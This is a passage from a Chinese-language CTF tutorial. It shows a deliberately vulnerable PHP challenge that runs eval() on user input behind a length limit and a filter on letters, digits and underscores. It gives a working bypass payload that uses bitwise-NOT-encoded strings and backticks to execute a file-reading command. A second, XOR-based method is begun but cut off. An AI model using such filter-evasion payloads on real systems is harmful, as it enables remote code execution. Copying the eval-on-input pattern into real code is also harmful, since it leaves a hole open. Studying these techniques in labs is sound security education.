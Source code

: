
# 五、几道题目练习

## 题目一：限制长度+禁用_符号

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>50){
        die("Too Long.");
    }
    if(preg_match("/[A-Za-z0-9_]+/",$code)){
        die("Not Allowed.");
    }
    @eval($code);
}
?>
```

### 解法一

很明显，我们上面提到的不用_写shell的方法也适用于本题，直接对%a0传参cat flag.php就行

```php
?code=?%3E%3C?=`{${~%22%a0%b8%ba%ab%22}[%a0]}`?%3E&%a0=type f1ag.txt
```

![image-20231019230049368](assets/image-20231019230049368.png)

### 解法二

当然，利用异或，我们也可以构造出类似的Payload:
